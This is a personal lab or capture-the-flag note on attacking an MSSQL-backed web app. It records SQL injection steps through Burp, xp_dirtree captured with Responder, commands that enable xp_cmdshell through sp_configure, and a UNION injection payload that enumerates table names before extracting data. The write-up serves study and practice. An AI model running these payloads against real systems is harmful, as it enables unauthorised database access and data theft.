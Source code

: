 ![[Pasted image 20250106153334.png]]
Because this works, we can use #responder to see what user we're running as. 

![[Pasted image 20250106153516.png]]
Re-execute Burp request:

![[Pasted image 20250106153601.png]]

View responder terminal and see it's running as DC$

![[Pasted image 20250106153646.png]]
Dead end because this is a machine account. 

Back to burp and changing xp_dirtree to xp_cmdshell

Testing this with a ping command

![[Pasted image 20250106153915.png]]
Listen for ping using #tcpdump 

`sudo tcpdump -i tun0 icmp`

This is a dead end also. 

Going to try reconfiguration using commands from mssql cheatsheet. 

`EXEC sp_configure ‘show advanced options’, 1;`

`EXEC sp_configure ‘xp_cmdshell’, 1;`

![[Pasted image 20250106154249.png]]
Still nothing from tcpdump terminal.

Start manually enumerating database

1. Version
![[Pasted image 20250106154508.png]]
2. user 
![[Pasted image 20250106154542.png]]
3. database name
![[Pasted image 20250106154625.png]]
Need to figure out table schema before exfilling data.

https://learn.microsoft.com/en-us/sql/t-sql/language-reference?view=sql-server-ver16

![[Pasted image 20250106155049.png]]
Query to get table names and ids
```
500' union select 1, (select string_agg(concat(name,':',id),'|')from streamio..sysobjects where xtype='u'),3,4,5,6-- -
```
![[Pasted image 20250106155404.png]]
